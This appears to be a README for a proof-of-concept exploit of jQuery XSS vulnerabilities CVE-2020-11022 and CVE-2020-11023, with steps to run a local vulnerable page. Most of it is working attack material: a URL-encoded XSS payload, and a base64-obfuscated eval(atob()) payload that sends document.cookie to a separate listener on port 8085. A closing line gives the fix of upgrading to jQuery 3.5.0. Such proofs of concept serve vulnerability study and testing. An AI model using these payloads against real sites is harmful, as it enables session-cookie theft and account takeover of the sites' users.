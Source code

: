 # CVE-2020-11022 CVE-2020-11023

> In jQuery versions greater than or equal to 1.2 and before 3.5.0, passing HTML from untrusted sources - even after sanitizing it - to one of jQuery's DOM manipulation methods (i.e. .html(), .append(), and others) may execute untrusted code. This problem is patched in jQuery 3.5.0.

> In jQuery versions greater than or equal to 1.0.3 and before 3.5.0, passing HTML containing <option> elements from untrusted sources - even after sanitizing it - to one of jQuery's DOM manipulation methods (i.e. .html(), .append(), and others) may execute untrusted code. This problem is patched in jQuery 3.5.0.

#### Exploit 

1. Host the index.php page on a PHP webserver. I suggest using `sudo php -S 127.0.0.1:80` to spin up a quick server. 

#### Simple XSS 

2. Visit the path [http://127.0.0.1/?value=/%3E%3Cimg%20src=x%20onerror=alert(1)%3E](http://127.0.0.1/?value=/%3E%3Cimg%20src=x%20onerror=alert(1)%3E)
3. Press the "Append via .html()" button. 
4. See the alert pop.

![image](https://github.com/0xAJ2K/CVE-2020-11022-CVE-2020-11023/raw/main/xss.png)

#### Cookie stealing 

2. Start another webserver on port 8085, I suggest using Python for this `sudo python3 -m http.server 8085`
3. Visit the path [http://127.0.0.1/?value=/%3E%3Cimg%20src=x%20onerror=eval(atob(%27ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly8xMjcuMC4wLjE6ODA4NS8/Yz0iK2RvY3VtZW50LmNvb2tpZQ==%27))%3E](http://127.0.0.1/?value=/%3E%3Cimg%20src=x%20onerror=eval(atob(%27ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly8xMjcuMC4wLjE6ODA4NS8/Yz0iK2RvY3VtZW50LmNvb2tpZQ==%27))%3E)
4. Press the "Append via .html()" button. 
5. Check the Python logs and see your cookie in the log. 

![image](https://github.com/0xAJ2K/CVE-2020-11022-CVE-2020-11023/raw/main/cookie.png)

#### Fix

If you'd like to fix this CVE in this script then just change the jQuery version to <https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.0/jquery.js> :)
